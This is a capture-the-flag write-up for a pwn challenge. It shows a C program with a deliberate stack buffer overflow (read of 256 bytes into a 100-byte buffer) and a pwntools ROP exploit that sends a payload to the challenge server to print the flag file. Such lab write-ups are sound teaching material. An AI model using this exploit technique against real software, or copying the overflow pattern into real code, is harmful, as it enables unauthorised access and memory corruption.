


### r/WholesomeCopypasta 🩸 | 7 Solves 997 Points
```
Such inspiring pasta

Author: Jin Kai
```

`challenge.c`
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

char* copypastas[] = {"mc_chicken.txt", "chameleon.txt", "bob.txt", "flag.txt"};

void print_file_contents(char* file_name) {
	FILE *f = fopen(file_name, "r");
	if (f == NULL) {
		perror("file does not exist");
		exit(0);
	}
	fseek(f, 0, SEEK_END);
	size_t sz = ftell(f);
	rewind(f);
	char* buf = calloc(sz, sizeof(char));
	fread(buf, sz, sizeof(char), f);
	fclose(f);
	printf("copypasta contents:\n%s", buf);
}

int main() {
	
	char filename[100];

	setbuf(stdin, 0);
	setbuf(stdout, 0);

	printf("list of available copypastas\n");
	for (int i = 0; i < 3; i++) {
		printf("%d. %s\n", i, copypastas[i]);
	}
	putchar(0xa);
	printf("input copypasta to read: ");
	size_t end = read(0, filename, 0x100);
	if (filename[end-1] = '\n')
		filename[end-1] = 0;


	if (strstr(filename, "flag") || strchr(filename, '/') || strchr(filename, '\\')) {
		puts("this copypasta is premium!");
		exit(0);
	}

	print_file_contents(filename);
}
```

`main()` grants us access to the `print_file_contents()` function which prints whatever is inserted as the file input. We know that `flag.txt` exists in the system, but we can't access it as a `strstr()` check prevents us from doing so!

So we start looking for vulnerabilities. At first the program might seem secure, but in reality there's a cheekily hidden buffer overflow.

```c
char filename[100];
size_t end = read(0, filename, 0x100);
```
In main()'s stack frame, `filename` is initialised to have only 100 characters. Yet the `read()` call takes in 256 characters!



Running `checksec` tells us there's no canary, thus we can easily buffer overflow to overwrite the return address!

Now if we can have it call `print_file_contents("flag.txt")`, we can get our flag. To do this, we identify a `pop rdi; ret;` instruction in the program memory and first have our program return to that when `main()` ends. Following which, we use the address whereby `flag.txt` is stored in memory, being in the global `copypastas[]` variable to have the address of `flag.txt` popped into the `rdi` register.

We perform another `ret` gadget to [align our stack](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), and then the `print_file_contents()` function address! Since `PIE` is disabled, the function addresses and global variable addresses are not randomised and static, allowing for our payload to work!

To overflow the buffer however, we will also need to ensure `main()` returns smoothly; We do this by having our first 8 bytes be `bob.txt\x00` so that `print_file_contents("bob.txt")` is called and it won't trigger any errors, resulting into a smooth return to our rop-chain.

`solve.py`
```py
from pwn import *

# p = process('./challenge')
# gdb.attach(p, gdbscript='b *main+174')
p = remote("challs.nusgreyhats.org", 32835)

poprdi = 0x400c13 #: pop rdi ; ret
flagtxt = 0x400c59 #: flag.txt
printfile = 0x4009a7
pload = b'bob.txt\x00' + b'A'*(16*8) + p64(poprdi) + p64(flagtxt) + p64(poprdi+1) + p64(printfile)
p.recvuntil(b"input copypasta to read: ")
p.sendline(pload)
p.interactive()
```



`grey{r0p3d_1n_th3_flag!}`